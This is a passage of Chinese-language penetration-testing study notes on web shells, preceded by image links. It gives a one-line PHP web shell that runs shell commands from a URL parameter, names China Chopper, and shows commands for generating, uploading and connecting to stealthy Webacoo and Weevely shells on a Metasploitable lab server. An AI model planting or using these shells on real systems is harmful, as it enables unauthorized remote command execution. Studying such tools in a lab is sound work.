








# WebShell

本质：

```
<?php echo shell_exec($_GET['cmd']);?>
```

---

### Windows平台

中国菜刀


---

### Linux下

> 本质与中国菜刀类似，有编码功能，可以避免被查杀


##### 1.Webacoo

> > 获得的是类终端的shell，编码内容通过cookie头传输，隐蔽性较强

**参数**

```
cm:base64编码的命令
cn:服务器用于返回数据的cookie头的名
cp:返回信息定界符
```

（1）.生成服务器端

```
webacoo -g -o a.php
```



```
利用scp上传到Metaspolitable的服务器根目录
```



```
移动a.php到web根目录
```



（2）.使用客户端进行连接

```
webacoo -t -u http://192.168.1.121/a.php
```



```
抓包分析如何通过cookie头传指令，手动触发流量   【cm/cn/cp】
```


```
其他参数： webacoo -h
```


---


**Weevely**

> 使用http头进行指令（经过编码）传输

> 隐藏的类终端PHP Webshell
>
> 有30多个管理模块
>
> > > 执行系统命令，浏览文件系统
> > >
> > > 检查服务器常见配置错误
> > >
> > > 创建正向，反向TCP Shell连接
> > >
> > > 通过目标计算机代理HTTP流量
> > >
> > > 从目标计算运行端口扫描，渗透内网

> 支持连接密码

kali中缺少库：https//pypi.python.org/pypi/PySocks/     #下载库文件压缩包

```
./setup.py install
```


（1）.生成服务器

```
weevely generate <password> <path>
```



```
上传密码
```



（2）.连接服务器

```
weevely <url> <password> [cmd]
```



（3）模块

```
help    #查看模块
```

